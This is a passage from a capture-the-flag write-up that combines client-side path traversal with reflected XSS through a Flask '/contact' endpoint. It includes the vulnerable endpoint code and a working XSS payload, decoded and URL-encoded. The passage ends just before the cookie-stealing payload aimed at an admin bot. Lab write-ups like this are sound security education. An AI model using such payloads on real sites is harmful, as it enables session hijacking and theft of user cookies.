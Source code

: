 The issue with this endpoint is that althought it does reflect part of the contents of a request via `note.content` and `note.id`, it does not reflect the `username` value and also it was not a `POST` endpoint which is made by the `fetch` request. I needed to find an endpoint that handled a `POST` request and reflected the `username` value. After scouring through the source code, I stumbled upon the following endpoint.

```python
@main.route('/contact', methods=['GET', 'POST'])
def contact():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
            username = data.get('name')
            content = data.get('content')

            if not username or not content:
                return jsonify({"message": "Please provide both your name and message."}), 400

            return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200

        username = request.form.get('name')
        content = request.form.get('content')

        if not username or not content:
            flash('Please provide both your name and message.', 'danger')
            return redirect(url_for('main.contact'))

        return render_template('contact.html', msg=f'Thank you for your message, {username}. We will be in touch!')

    return render_template('contact.html', msg='Feel free to reach out to us using the form below. We would love to hear from you!')
```

The `jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200` line not only reflected the `username` value but also was a `POST` endpoint, a perfect candidate for our XSS! The problem was that the `username` value needed to both be used for the Client-Side Path Traversal (CSPT) and to also be reflected as a valid XSS payload. The simple trick I came up with was to add a `#` to the middle of the username so that the part before the hash fragment contained the CSPT payload and the part after the hash fragment contained the XSS payload. I added the following to the URL which popped an alert.

```
Decoded:
name=..././..././..././/contact#<img src=x onerror=alert(1) />

Encoded:
name=...%2F.%2F...%2F.%2F...%2F.%2F/contact%23%3Cimg%20src=x%20onerror=alert(1)%20/%3E
```

### Final Payload
Examining the admin bot source code at the `/report` endpoint, I found that the bot stored the flag in a non-HTTPOnly cookie which meant we could steal the flag using JavaScript. I crafted the following payload and submitted it to the admin bot to obtain the flag.
